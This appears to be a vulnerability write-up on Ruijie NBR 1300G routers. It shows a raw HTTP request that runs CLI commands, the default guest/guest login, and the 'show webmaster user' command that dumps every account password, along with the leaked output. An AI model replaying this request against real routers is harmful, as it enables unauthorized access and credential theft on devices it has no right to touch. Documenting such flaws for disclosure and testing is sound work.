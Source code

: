 # Ruijie NBR 1300G router Overlord CLI command execution vulnerability

## Vulnerability Description

Ruijie NBR 1300G router Execution vulnerability of CLI command, guest account can obtain administrator account password without permission

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ruijie NBR router</span>

## Network surveying and mapping





## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-35.png)



View traffic discovery CLI command traffic



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-36.png)



The request package is



```plain
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```



Testing found that permission is required to execute other commands. Checking the manual, it is found that there is a low-privileged guest account (guest/guest)



After logging in, send the request packet and execute the CLI command `(show webmaster user)` to view the user's configuration account password



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-37.png)



Successfully obtain the account passwords of all users



```plain
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```



## 